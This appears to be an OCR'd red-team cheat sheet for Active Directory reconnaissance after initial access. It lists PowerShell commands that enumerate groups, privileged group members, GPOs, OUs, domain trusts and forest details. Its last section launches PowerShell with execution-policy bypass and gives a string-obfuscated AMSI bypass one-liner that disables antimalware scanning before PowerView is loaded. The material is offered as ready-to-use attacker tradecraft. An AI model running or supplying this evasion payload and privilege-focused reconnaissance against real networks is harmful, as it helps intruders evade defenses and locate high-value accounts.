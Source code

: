 User Groups Enumeration

#Find all groups in the Domain
Get-ADGroup  -Filter * |select name

#Get verbose info about groups 
Get-ADGroup  -Filter * -Properties *

#Find Complete info about specific group
Get-ADGroup -Identity 'Enterprise Admins' -Properties *
Get-ADGroup -Filter 'Name -like "*admin*"'| select Name 


Group Membership Enum

#Find the members of a group
Get-ADGroupMember -Identity 'Enterprise Admins' -Recursive | select SamAccountName

#Find the groups a user is member of
Get-ADPrincipalGroupMembership -Identity UserName | select name


GPO Enumeration:

#Get GPO list in current domain
Get-gpo -all

#Restricted policy
Get-NetGPOGroup

#Finding OUS
Get-ADOrganizationalUnit -Filter * -Properties *


Forest Enumeration

#Domain Trust Mapping
Get-ADTrust -Identity steins.local

#Forest Details
Get-ADForest
Get-AdForest -Identity Steins.local

#Get all domains in current forest
(Get-ADForest).Domains

#Get all Global catalogs for current forest
Get-ADForest | select  -ExpandProperty GlobalCatalogs

#Map Trusts of Forests
Get-ADTrust -Filter 'msDS-TrustForestTrustinfo -ne "$null"'

Basic AD Enum After Initial Access using PowerView
powershell.exe -ep bypass
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
Import-Module ./PowerView.ps1
